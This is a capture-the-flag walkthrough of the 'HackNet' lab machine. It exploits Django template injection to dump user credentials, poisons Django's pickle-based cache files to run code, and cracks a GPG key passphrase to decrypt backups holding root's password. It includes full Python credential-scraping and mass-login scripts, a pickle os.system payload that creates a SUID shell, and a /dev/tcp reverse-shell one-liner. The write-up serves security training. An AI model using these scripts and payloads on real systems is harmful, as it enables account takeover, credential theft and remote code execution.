HackNet

Hacknet was a medium-difficulty Linux machine that began with discovering a Django-based "social network for hackers" on port 80.
After creating an account and identifying the framework through 404 error page fingerprinting, I discovered a Server-Side Template Injection (SSTI) vulnerability in the /likes endpoint where usernames were rendered directly into templates without sanitization.
Setting my username to {{7*7}} confirmed the vulnerability when the functionality broke.
I exploited the SSTI by setting my username to {{users.values}} to dump the entire user queryset, revealing email addresses and passwords. Since complex loops caused 500 errors, I used Burp Intruder to like all 26 forum posts, then created a Python scraper that extracted credentials from each /likes/X endpoint using regex to parse the response bodies, discovering 26 unique user accounts. A second scraping script logged in as each user to enumerate their contact lists, revealing a previously hidden user backdoor_bandit who was only visible as a contact of the private user deepdive. After friending deepdive and logging in as them to view private posts, I exploited the SSTI again through their liked posts to extract backdoor_bandit's credentials (mikey@hacknet.htb:mYd4rks1dEisH3re), which provided SSH access to the box as user Mikey.
With no sudo privileges as Mikey, I discovered the writable /var/tmp/django_cache directory owned by Sandy. Research into Django's caching mechanism revealed it uses pickle for serialization/deserialization, creating a pickle deserialization vulnerability. I crafted a malicious pickle payload using reduce to execute os.system() commands, creating poisoned cache files that would be loaded when Sandy accessed the website. The payload created a SUID bash binary (/tmp/sandybash) owned by Sandy, granting me access to Sandy's account.
As Sandy, I found GPG-encrypted SQL backup files in the web directory. After obtaining Sandy's ASCII-armored GPG private key from ~/.gnupg/, I used gpg2john to extract a hash and cracked the passphrase (sweetheart) with John the Ripper. Decrypting the three SQL backup files and grepping for passwords revealed root's credentials (root:h4ck3rs4re3veRywh3re99), allowing direct privilege escalation to root.
User Flag

Initial nmap scan reveals just 2 ports. SSH on 22 and a website on 80.
Investigating the website

It's a "social network for hackers". I'll create an account test:test

Before looking for things like XSS and other web vulnerabilities, I will check what framework is being used here with BurpSuite.

I do not recognize this cookie format. Another good way to pinpoint the framework is by looking at the 404 error pages. Default, unchanged pages will often give out the underlying framework.

https://0xdf.gitlab.io/cheatsheets/404
Using this resource from 0xdf, I can see that my error page perfectly matches the default 404 page in Django.

Having confirmed the framework, I tested for XSS and HTML parsing, with no positive effect.

SSTI In the /likes endpoint
Another attack I could try right now is Server-Side Template Injection. This occurs when user-controller data is passed directly into a template. Templates are often used with dynamically displayed content, for example, usernames on a forum.
I will set my username to a simple {{7*7}} template, which will allow me to notice where things may have been broken due to SSTI. If I see a 49 somewhere, or a functionality breaks for no apparent reason, it'll most likely be due to this SSTI payload.

I began clicking around the forum section, and when I wanted to list the likes after I liked a comment...

There it is! The confirmation that SSTI is possible on this website. I'll have a look at what happens when I click the like list under an unaffected comment.

A request is being made to /likes/X, with X being the post number.

The response to that contains a bunch of divs linking back to user profiles and their profile pictures, but the most interesting things here are the titles. This is what is displayed when a user hovers their mouse over the profile picture on the list.
These title values are actual user names, placed directly into a template and rendered on the forum. This explains why it crashed when I liked a comment, as my username {{7*7}} was passed directly into the template, and was treated as an operation instead of an username.
Grabbing data of all users
To actually make use of this, I will look through the user queryset values. A queryset is just a collection of data from a database. To do this, I will change my username to {{users.values}}

The response contains every bit of data stored about the users. However, this is very messy and bloated. I just need the emails and the password, as that is what's needed to login into the forum.
I wanted to do this cleanly with a loop over all users, but trying to set such usernames caused the server to return a 500 internal server error message. The same issue occurred when trying to grab a list of the two values from the queryset
{% for user in users.values %} {{user.email}} - {{user.password}} {% endfor $}
{{users.values_list('email', 'password')}}
Instead of all that, I will utilize BurpSuite's Intruder this time. The goal of this is to like every single post on the forum.

After running the attack, I can confirm that every relevant post has been liked.

Why did I do this? Because different users will like different posts. Doing this allows me to grab the most users possible, and it will be a huge part of my next step.
Extracting data from the responses
I'll repeat the intruder attack, this time looping over the /likes endpoint where the SSTI is happening. I wanted to do this with Intruder as well, but it only grabbed the first matching value in each request.
Ultimately, I will create a script that sends a request to each /likes/X endpoint, captures the response, and grabs the emails and passwords from the body. This will repeat for every request, saving unique credentials to a file.
# scraper.py
import requests
import re
from html import unescape
BASE_URL = "http://hacknet.htb"
COOKIES = {
'csrftoken': 'G7apPEnyWrk6PCR2DV7TQnO1FSXPRgD1',
'sessionid': 'ynmjcc1bj73rivoa1w8x4irhox5de41v'
}
HEADERS = {
'X-Requested-With': 'XMLHttpRequest',
'Accept-Language': 'en-US,en;q=0.9',
'Accept': '*/*',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36',
'Referer': 'http://hacknet.htb/explore',
'Accept-Encoding': 'gzip, deflate, br',
'Connection': 'keep-alive'
}
credentials = set()
def extract_credentials(text):
decoded = unescape(text)
email_pattern = r"'email':\s*'([^']+)'"
password_pattern = r"'password':\s*'([^']+)'"
emails = re.findall(email_pattern, decoded)
passwords = re.findall(password_pattern, decoded)
return list(zip(emails, passwords))
def scrape_likes(start=1, end=26):
for i in range(start, end + 1):
url = f"{BASE_URL}/likes/{i}"
try:
print(f"[*] Scraping {url}")
response = requests.get(url, cookies=COOKIES, headers=HEADERS, timeout=10)
if response.status_code == 200:
cred_pairs = extract_credentials(response.text)
if cred_pairs:
for email, password in cred_pairs:
cred_pair = (email, password)
if cred_pair not in credentials:
credentials.add(cred_pair)
print(f"[+] Found: {email} : {password}")
else:
print(f"[~] Duplicate: {email}")
else:
print(f"[-] No credentials found in /likes/{i}")
else:
print(f"[-] HTTP {response.status_code} for /likes/{i}")
except Exception as e:
print(f"[!] Error on /likes/{i}: {e}")
return credentials
def save_credentials(filename="credentials.txt"):
with open(filename, 'w') as f:
for email, password in sorted(credentials):
f.write(f"{email}:{password}\n")
print(f"\n[+] Saved {len(credentials)} unique credentials to {filename}")
if __name__ == "__main__":
print("[*] Starting credential extraction...\n")
scrape_likes(1, 26)
print(f"\n[*] Total unique credentials found: {len(credentials)}")
print("\n--- CREDENTIALS ---")
for email, password in sorted(credentials):
print(f"{email}:{password}")
save_credentials(
It uses set to store unique credentials, and regex findall with proper regular expressions to capture all credentials from the endpoints. This will loop over all 26 posts, and it'll display a nice table of captured credentials at the end.

26 unique credentials found, excluding my test account. At this point, I can already see the credentials necessary to SSH into the box. However, during my initial solve, I either did not see them or they just were not there. I'll follow my initial solve, and I will ignore these for now.
Scraping the contact lists of users
The website allows users to set their accounts to either public or not public. This could mean that, for example, their posts would only be visible to their contacts. At the same time, there could be users who have never made/liked a single public post, and as such, my scraper script did not catch them.
To check whether this is true, I will use my credentials.txt file to log in as every gathered user, check their contact list, and display the results.
First, I need two things. I need something that is always on the page if there are no contacts, and I need to see how users in the contact list are displayed. The first one will be easy, since my profile has no contacts currently.

Perfect. If the user has no contacts, the contacts div will hold the You don't have contacts message. I can look for this to determine whether a user's contact list is empty.

If the user has at least one contact, a new div with the ID of user-list will contain more divs for each user. I can look for the /profile/X text within the single-user div, or just extract the whole info-block div if I wanted to.
# scrape_contacts.py
import requests
import re
from html import unescape
from time import sleep
BASE_URL = "http://hacknet.htb"
HEADERS = {
'Cache-Control': 'max-age=0',
'Accept-Language': 'en-US,en;q=0.9',
'Origin': 'http://hacknet.htb',
'Content-Type': 'application/x-www-form-urlencoded',
'Upgrade-Insecure-Requests': '1',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
'Referer': 'http://hacknet.htb/login',
'Accept-Encoding': 'gzip, deflate, br',
'Connection': 'keep-alive'
}
def get_csrf_token(session):
response = session.get(f"{BASE_URL}/login")
match = re.search(r'name="csrfmiddlewaretoken"\s+value="([^"]+)"', response.text)
if match:
return match.group(1)
return session.cookies.get('csrftoken', '')
def login(email, password):
session = requests.Session()
csrf_token = get_csrf_token(session)
# Login request
login_data = {
'csrfmiddlewaretoken': csrf_token,
'email': email,
'password': password
}
response = session.post(
f"{BASE_URL}/login",
data=login_data,
headers=HEADERS,
allow_redirects=True
)
if response.status_code == 200:
return session
return None
def get_contacts(session, email):
response = session.get(f"{BASE_URL}/contacts")
if "You don't have contacts" in response.text or "You don't have contacts" in response.text:
print(f" [-] {email} has no contacts")
return []
# Extract contact usernames
contacts = re.findall(r'<a href="/profile/\d+">([^<]+)</a>', response.text)
if contacts:
print(f" [+] {email} has {len(contacts)} contact(s): {', '.join(contacts)}")
return contacts
else:
print(f" [-] {email} has no contacts")
return []
def load_credentials(filename="credentials.txt"):
creds = []
try:
with open(filename, 'r') as f:
for line in f:
line = line.strip()
if ':' in line:
email, password = line.split(':', 1)
creds.append((email, password))
except FileNotFoundError:
print(f"[!] {filename} not found!")
return creds
def main():
print("[*] Loading credentials...\n")
credentials = load_credentials("credentials.txt")
if not credentials:
print("[!] No credentials found. Run the scraper first!")
return
print(f"[*] Found {len(credentials)} credential pairs\n")
print("[*] Starting login attempts...\n")
results = []
for email, password in credentials:
print(f"[*] Trying: {email}:{password}")
session = login(email, password)
if session:
print(f" [+] Login successful!")
contacts = get_contacts(session, email)
results.append({
'email': email,
'password': password,
'contacts': contacts
})
else:
print(f" [X] Login failed")
sleep(0.5)
print()
print("\n" + "-"*60)
print("SUMMARY")
print("-"*60)
for result in results:
if result['contacts']:
print(f"\n{result['email']}:{result['password']}")
print(f" Contacts: {', '.join(result['contacts'])}")
with open("accounts_with_contacts.txt", 'w') as f:
for result in results:
if result['contacts']:
f.write(f"{result['email']}:{result['password']}\n")
f.write(f" Contacts: {', '.join(result['contacts'])}\n\n")
print(f"\n[+] Results saved to accounts_with_contacts.txt")
if __name__ == "__main__":
main()

I have not seen this backdoor_bandit user before at all. Deepdive just became much more important as a target.
Infiltrating the private users' posts

As expected, user deepdive has his account set to private. The same can be said about backdoor_bandit. However, I have the former's credentials, which means I can request contact from them and then log in as them to confirm that request.

Why was this needed? In order to see deepdive's private posts, I needed to become a contact of his. Now that this is done, I can read and like their posts, which in turn allows me to exploit the SSTI again.

The other person liking their post is backdoor_bandit. I'll get their data with BurpSuite.

mikey@hacknet.htb | mYd4rks1dEisH3re
Notice how this one email holds the box name as the domain part of the email. I will try to SSH into the box as Mikey with these creds.

Root flag

Mikey cannot run anything as root on the box. I will take a look into the webroot directory of the website I've just exploited.

There are some encrypted backup files owned by the user Sandy. Nothing to do with them right now. Most of the files in the HackNet directory are owned by Sandy.
Poisoning Django cache files with pickle deserialization
find / -type d -writable 2>/dev/null

I scanned for directories writable by mikey, and /var/tmp/django_cache caught my attention.
The directory is owned by Sandy... And is empty

However, when I refreshed the explore page on the website...

2 new cache files appeared in the dir, both owned by Sandy. This means that I cannot do anything with them, but... What if I were to create one in advance?
Reading through the Django docs, I stumbled upon an interesting discovery.
https://docs.djangoproject.com/en/6.0/topics/cache/

The cache data is serialized and deserialized with pickle. With write access to the directory AND knowledge that the files disappear after some time, I will be able to achieve code execution here.
import pickle
import os
class Exploit:
def __reduce__(self):
return (os.system, ('cp /bin/bash /tmp/sandybash && chmod 4755 /tmp/sandybash',))
malicious_data = pickle.dumps(Exploit())
with open('90dbab8f3b1e54369abdeb4ba1efc106.djcache', 'wb') as f:
f.write(malicious_data)
with open('1f0acfe7480a469402f1852f8313db86.djcache', 'wb') as f:
f.write(malicious_data)
After waiting for the cache files to disappear, I ran the Python script within the cache directory and refreshed the /explore page on the website.

Decrypting SQL backups
Having control over Sandy, I can now focus on the encrypted backup files from earlier. Since the encryption was made with GPG, I will look through Sandy's .gnupg directory to search for a key.

Using a bash binary to "elevate" myself to Sandy gives... Unusual results in conjunction with GPG. I will quickly swap the pickle command into a reverse shell, which I'll catch with my listener on port 9001.
bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"

I will take a look at Sandy's gpg keys now. I'm looking for a way to decrypt the SQL backups from earlier.

An ascii-armored key is stored in a base64 format. This makes it easy to copy over to my machine.

The key is protected with a passphrase. I'll use gpg2john to get a crackable hash for it.

GPG key | sweetheart
I will import the key now in order to use it.

Since I won't need the Sandy shell anymore after this, I will set up a Python server, and I will curl all 3 of the backup files back to my host.

I can decrypt these files now, but I still need to provide the passphrase.

I'll look through the decrypted backups for a few strings, starting with password
cat backup0*.sql | grep password

I see a brand new password, apparently for MySQL root. I will try it against the box root, though, just in case.
root? | h4ck3rs4re3veRywh3re99

Rooted!